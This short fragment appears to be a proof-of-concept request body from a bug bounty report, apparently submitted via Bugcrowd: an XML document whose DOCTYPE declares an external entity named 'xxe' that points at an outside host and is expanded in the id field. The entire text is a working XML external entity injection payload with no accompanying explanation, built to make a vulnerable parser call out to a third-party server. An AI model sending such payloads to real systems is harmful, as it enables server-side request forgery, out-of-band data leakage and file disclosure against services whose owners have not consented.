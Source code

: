 <?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE  Prod [<!ENTITY xxe SYSTEM "http://antoniosanso.appspot.com/lol" >]>
<Prod>
<Type>abc</Type>
<name>Bugcrowd</name>
<id>&xxe;</id>
</Prod>
 